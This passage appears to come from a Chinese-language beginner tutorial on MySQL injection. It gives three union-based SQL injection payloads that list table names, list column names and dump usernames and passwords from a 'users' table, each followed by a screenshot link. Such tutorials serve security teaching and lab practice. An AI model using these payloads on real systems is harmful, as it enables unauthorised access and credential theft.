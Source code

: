 查表名

```sql
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```
![image.png](./MySQL注入基础.assets/2023_05_19_10_41_12_wuWBrLPh.png)

查列名

```sql
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
```
![image.png](./MySQL注入基础.assets/2023_05_19_10_41_12_m2bIHrxY.png)

查值

```sql
?id=-1' union select 1,2,group_concat(0x23,username,0x23,password) from users--+
```
![image.png](./MySQL注入基础.assets/2023_05_19_10_41_12_fB4iwh9z.png)

